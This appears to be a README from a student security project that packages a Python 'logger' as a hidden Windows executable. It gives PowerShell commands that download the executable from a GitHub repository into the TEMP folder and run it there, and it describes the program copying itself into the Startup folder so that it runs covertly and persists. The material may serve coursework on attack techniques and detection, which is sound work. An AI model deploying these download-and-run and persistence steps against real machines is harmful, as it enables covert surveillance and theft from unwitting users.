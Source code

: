 # Logger Script - Executable Version

This project contains a Python-based logger script that has been compiled into a standalone executable using **PyInstaller**. The executable allows the logger script to run on any Windows machine without the need for Python or external dependencies to be installed.

## Compilation Process

We used **PyInstaller** to compile the Python script into an `.exe` file. The following command was used:

```bash
pyinstaller --onefile --noconsole <file.py>
```

### Explanation of the PyInstaller Options:

- `--onefile`: This option bundles everything (the Python interpreter, libraries, and the script) into a **single executable**. This makes it easier to distribute the program, as you only need to provide the generated `.exe` file.
  
- `--noconsole`: This option ensures that no **console window** (command prompt) is opened when the executable is run. It's particularly useful for GUI applications or scripts that do not require any terminal interaction. If the logger script doesn't need to display anything in the console, this option helps make the application more user-friendly and clean and run in the **background**.

## Testing the script

After compiling, the generated `.exe` file can be found in the `dist` folder. 

To run the script we can use powershell, the following commands:

```bash
cd $env:TEMP
```
```bash
Invoke-WebRequest -Uri "https://github.com/Toghrul000/Exfiltration_example/raw/refs/heads/main/dist/group_9_logger.exe" -OutFile "./group_9_logger.exe"
```
```bash
.\group_9_logger.exe
```

We run the initial script from the temporary folder, since we want to be covert, after that script will try to run and put itself to "C:\Users\YourUsername\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup" folder to become persistent. (We assume attacker only has user level access and not admin, so he cannot create a windows service or schtasks persistence).
After a minute or so, Windows defender will generate alert for this. 